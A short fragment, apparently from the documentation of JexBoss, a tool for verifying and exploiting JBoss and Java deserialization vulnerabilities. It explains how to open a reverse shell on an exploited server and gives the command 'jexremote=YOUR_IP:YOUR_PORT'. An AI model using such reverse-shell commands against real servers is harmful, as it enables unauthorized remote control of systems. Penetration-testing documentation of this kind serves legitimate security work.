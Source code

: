 ![](resource/JexBoss-JBoss(andothersJavaDeserializationVulnerabilities)verifyandEXploitationTool/media/rId39.png)

Reverse Shell (meterpreter integration)
---------------------------------------

After you exploit a JBoss server, you can use the own jexboss command
shell or perform a reverse connection using the following command:

       jexremote=YOUR_IP:YOUR_PORT
